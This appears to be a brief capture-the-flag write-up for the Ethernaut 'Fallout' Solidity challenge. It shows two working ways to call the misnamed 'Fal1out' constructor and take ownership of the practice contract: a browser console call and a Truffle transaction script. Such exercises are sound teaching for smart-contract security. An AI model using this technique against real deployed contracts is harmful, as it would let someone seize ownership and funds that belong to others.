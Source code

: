 ### Method one
we can run the code in Developer Tools:
~~~
await contract.Fal1out();
~~~


### Method two
truffle script:
~~~
module.exports = async function(callback) {
	player='your address'
	Fallout='your instance address'
	sig=web3.eth.abi.encodeFunctionCall({
		name:'Fal1out',
		type:'function',
        inputs:[]},
        []
	)
	console.log(await web3.eth.sendTransaction({from:player,to:Fallout,data:sig}))
	callback();
}
~~~